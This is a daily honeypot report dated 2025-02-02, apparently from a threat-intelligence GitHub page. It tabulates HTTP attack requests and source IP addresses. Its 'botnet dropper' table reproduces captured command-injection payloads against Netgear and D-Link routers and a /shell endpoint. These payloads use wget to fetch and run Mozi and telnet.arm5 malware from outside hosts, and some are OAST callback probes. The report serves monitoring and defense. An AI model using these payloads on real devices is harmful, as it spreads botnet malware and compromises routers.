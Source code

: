```yaml
---
title: "Report: 2025-02-02 "
date: 2025-02-02
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-02-02
interaction report on http service of various Hhoneypot around the world.
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## botnet_dropper_behaviour
|    | remote_addr    | request                                                                                                                                                                   |
|---:|:---------------|:--------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  0 | 36.49.65.2     | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://36.49.65.2:47727/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
|  1 | 222.141.154.10 | 27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0                                                     |
|  2 | 34.133.136.104 | mac=1&ip=127.0.0.1|wget cufanednlodcre1u5ht0d143e3ec4uq5e.oast.site                                                                                                       |
|  3 | 34.133.136.104 | mac=1&ip=127.0.0.1|wget cufanednlodcre1u5ht05e4bdkahyuxpm.oast.site                                                                                                       |
|  4 | 47.104.177.250 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 45.90.162.234/wdjkalwww/telnet.arm5;chmod+777+/tmp/telnet.arm5;sh+/tmp/telnet.arm5 HTTP/1.1                                             |

## list_of_source_IP_addresses
|     |   number_of_occurence | remote_addr     |
|----:|----------------------:|:----------------|
|   0 |                    45 | 209.38.122.180  |
|   1 |                    43 | 92.255.57.58    |
|   2 |                    38 | 78.153.140.179  |
|   3 |                    27 | 144.172.91.77   |
|   4 |                    26 | 78.153.140.93   |
|   5 |                    24 | 45.148.10.242   |
|   6 |                    24 | 178.128.227.176 |
|   7 |                    21 | 195.3.223.55    |
|   8 |                    18 | 146.19.24.168   |
|   9 |                    18 | 87.121.79.213   |
|  10 |                    17 | 209.126.3.231   |
|  11 |                    15 | 179.43.191.146  |
|  12 |                    15 | 45.144.212.139  |
|  13 |                    15 | 138.68.73.183   |
|  14 |                    14 | 185.196.220.253 |
|  15 |                    12 | 192.241.241.194 |
|  16 |                    12 | 170.64.237.42   |